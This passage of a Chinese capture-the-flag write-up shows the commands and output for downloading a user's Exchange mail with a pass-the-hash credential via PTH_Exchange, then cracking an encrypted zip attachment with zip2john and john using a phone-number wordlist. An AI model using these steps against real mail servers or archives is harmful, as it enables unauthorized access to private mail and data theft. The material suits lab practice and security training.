也可以使用 [PTH_Exchange](https://github.com/Jumbo-WJB/PTH_Exchange) 下载指定用户的邮件和附件：

```
python3 pthexchange.py --target https://172.22.3.9 --username "Lumia" --password "00000000000000000000000000000000:862976f8b23c13529c2fb1428e710296" --action Download
```

在（收件人）用户 Lumia 的邮件中，找到了个 secret.zip 附件。

![image.png](https://raw.githubusercontent.com/h0ny/repo/main/images/c2c129d1e7328a45.png)

附件中的压缩包需要解压密码，邮件中的提示说该压缩包是用另一个邮件附件中的手机号码进行加密的。

![image.png](https://raw.githubusercontent.com/h0ny/repo/main/images/12977f1dd91ec530.png)

zip 转 pkzip ，再爆破解压密码：

```
┌──(kali㉿kali)-[~/Desktop]
└─$ zip2john item-0-secret.zip > new-pkzip.zip
Created directory: /home/kali/.john
ver 2.0 item-0-secret.zip/flag.docx PKZIP Encr: cmplen=668284, decmplen=671056, crc=AFEF0968 ts=AB91 cs=afef type=8


┌──(kali㉿kali)-[~/Desktop]
└─$ john new-pkzip.zip --format=pkzip --wordlist=passwd.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
18763918468      (item-0-secret.zip/flag.docx)
1g 0:00:00:00 DONE (2023-03-11 02:44) 50.00g/s 25000p/s 25000c/s 25000C/s 15265180637..15989600577
Use the "--show" option to display all of the cracked passwords reliably
Session completed.

```

解压后获取 flag：

![image.png](https://raw.githubusercontent.com/h0ny/repo/main/images/274a47584ba2db51.png)
